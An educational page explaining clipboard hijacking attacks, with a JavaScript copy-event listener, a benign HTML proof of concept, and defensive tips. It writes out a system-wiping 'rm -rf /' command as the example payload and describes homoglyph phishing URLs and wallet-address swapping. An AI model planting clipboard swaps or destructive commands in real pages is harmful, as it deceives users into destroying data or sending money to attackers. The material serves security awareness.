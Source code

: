 ```yaml
---
icon: paste
---
```


# Copy-Paste Spoofing

## Introduction

**"Clipboard Manipulation Attack"** or **"Copy-Paste Spoofing"**, where a website displays one thing visually, but when you copy it, something entirely different is placed in your clipboard.

#### **How It Works**

1. **Text Appears Normal on the Website** – The website shows a piece of text, such as a command, email, or URL.
2. **User Copies the Text** – The user highlights the visible text and copies it (Ctrl + C or right-click → Copy).
3. **Different Text is Pasted** – When the user pastes the copied content elsewhere (e.g., a terminal, browser, or document), a completely different text appears.

#### **Technical Explanation**

This happens due to **JavaScript event listeners**, which modify the clipboard content when you copy. Here’s an example of how this can be done:

```javascript
javascriptCopyEditdocument.addEventListener("copy", function(event) {
    event.preventDefault();
    event.clipboardData.setData("text/plain", "malicious_command"); // Changes copied content
});
```

#### **Use Cases of This Attack**

* **Malicious Command Injection:**
  *   The site displays:

      ```
      goCopyEditsudo apt install safe-package
      ```
  *   But when pasted, it becomes:

      ```
      nginxCopyEditsudo rm -rf / --no-preserve-root
      ```

      (which would wipe a Linux system!)
* **Phishing Attack:**
  * The site shows: `https://paypal.com`
  * But copying and pasting gives: `https://paypaI.com` (with a capital "I" instead of "l").
* **Cryptocurrency Theft:**
  * The site displays: `bc1qyourwalletaddress`
  * But pastes: `bc1qattackerswallet`.

#### **How to Protect Yourself**

✅ **Paste First in a Plain Text Editor** – This removes hidden clipboard modifications.\
✅ **Use "Paste and Match Style"** – This pastes only raw text without formatting.\
✅ **Disable JavaScript on Untrusted Sites** – Prevents clipboard modifications.\
✅ **Use a Clipboard Manager** – Some clipboard tools track copied text history.



***

## Demo

#### **How It Works:**

* The text displayed on the webpage looks normal.
* But when you copy it, something entirely different is placed in your clipboard.

***

#### **📜 HTML + JavaScript Code PoC**

You can try this by saving it as an `.html` file and opening it in a browser.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Clipboard Hijack PoC</title>
    <script>
        document.addEventListener("DOMContentLoaded", function() {
            document.addEventListener("copy", function(event) {
                event.preventDefault(); // Prevent normal copying
                event.clipboardData.setData("text/plain", "echo 'You have been hacked!'");
                alert("Clipboard content modified!");
            });
        });
    </script>
</head>
<body>
    <h2>Copy this text: <span id="copyText">sudo apt install safe-package</span></h2>
    <p>Try copying the text above and pasting it elsewhere. 😉</p>
</body>
</html>
```

***

#### **🛠 Steps to Try It Out**

1. Copy the code and save it as `clipboard_attack.html`.
2. Open it in a browser.
3. Highlight and **copy** the displayed text (which appears as `sudo apt install safe-package`).
4.  **Paste it somewhere else**—you’ll see that it actually pastes:

    ```
    bashCopyEditecho 'You have been hacked!'
    ```
5. **An alert box will pop up** when you copy, warning that the clipboard was modified.



***

## Try the Code

* [https://onecompiler.com/html/4386f4c77](https://onecompiler.com/html/4386f4c77)





